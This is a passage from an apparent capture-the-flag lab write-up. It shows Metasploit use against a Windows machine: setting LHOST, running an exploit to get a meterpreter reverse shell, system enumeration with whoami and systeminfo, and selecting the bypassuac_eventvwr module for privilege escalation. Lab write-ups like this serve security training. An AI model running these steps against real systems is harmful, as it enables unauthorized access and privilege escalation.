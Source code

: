 ```
set LHOST <Your own IP>
```

Then I can execute the exploit by entering the command

```
exploit
```

It worked and I get a meterpreter reverse shell:

![Meterpreter reverse shell](.attachments.41811/grafik%20%283%29.png)

## Task 3: Escalate

To check as which user we are currently operating I start a windows shell inside the meterpreter with the

```
shell
```

command. The

```
whoami
```

command tells me then that I am currently operating as the user "dark".

With the

```
systeminfo
```

command I get further information about the system, for example the OS version and build number:

![Systeminfo output](.attachments.41811/grafik%20%285%29.png)

I can also find that the system is running on 64 bit architecture:

![x64-based PC](.attachments.41811/grafik%20%286%29.png)

I then run a post exploit script from metasploit to detect local exploits to perform privilege escalation. There are multiple possible exploits found:

![Possible exploits](.attachments.41811/grafik%20%287%29.png)

I backgrounded the current meterpreter session by pressing

```
CTRL+Z
```

Then I selected the previously first discovered exploit with

```
use exploit/windows/local/bypassuac_eventvwr
```
